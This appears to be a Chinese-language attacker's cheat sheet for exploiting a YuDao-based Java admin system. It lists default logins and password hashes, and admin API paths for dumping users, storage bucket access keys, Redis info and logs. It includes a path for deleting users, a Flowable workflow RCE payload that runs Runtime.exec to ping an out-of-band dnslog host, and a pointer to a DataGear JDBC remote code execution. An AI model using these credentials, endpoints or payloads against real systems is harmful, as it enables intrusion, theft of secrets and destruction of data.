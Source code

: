 默认账户
admin admin123
test test123
hrmgr hr123


```
test123
bv1BUHrzxj5rXjwSBhwqrfoa8RgrUBK8bldbPKY62k6hkKN0zeOcz0Sztlto66M1G/c2Tz7qWWOHBtMQTdHBPQ==

$2a$10$mRMIYLDtRHlf6.9ipiqH1.Z.bh/R9dO9d5iHiGYPigi6r5KOoR2Wm
默认密钥密码admin123

$2a$04$5Kp7boZ/JfnMRNcSxZ3ItOaRM.Mmkdiyk3xKqNMCxCWMWdBwTY97y
admin1234
```

^
java解析js的RCE，java17如果默认不支持解析js。
<https://www.freebuf.com/articles/web/362360.html>
工作流：<https://blog.thatcoder.cn/wiki/YuDaoCloud/%E5%B7%A5%E4%BD%9C%E6%B5%81%E6%89%8B%E5%86%8C/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE/%E5%B7%A5%E4%BD%9C%E6%B5%81%EF%BC%88Flowable%EF%BC%89%E4%BC%9A%E7%AD%BE%E3%80%81%E6%88%96%E7%AD%BE.html>

```
用户
/admin-api/system/user/page
/prod-api/admin-api/system/user/page



可能未授权查看
/admin/applications



存储桶，存储位置，aksk
/admin-api/infra/file-config/page
文件列表
/admin-api/infra/file/page?pageNo=1&pageSize=100

数据源,无敏感信息
/admin-api/infra/data-source-config/list
/admin-api/infra/data-source-config/create
/infra/data-source-config
可能前后端分离


redis信息
有redis配置文件位置
/prod-api/admin-api/infra/redis/get-monitor-info



初始配置
/admin-api/infra/config/page
字典
/admin-api/system/dict-type/page



日志
/admin-api/infra/api-access-log/page
/admin-api/infra/api-error-log/page

/admin-api/system/operate-log/page
/admin-api/system/login-log/page


操作日志，无用
/admin-api/web-api/system/dict/data/list-all-simple


用户列表(部分)
/admin-api/web-api/selfcom/user/list
/web-api/selfcom/user/list



删用户，最好delete方法
/admin-api/system/user/delete?id=4




工作流
/manager/model/list
/manager/model/edit
java.lang.Runtime.getRuntime().exec("ping hng2al.dnslog.cn");
```



^
## **jdbc**
DataGear全版本RCE

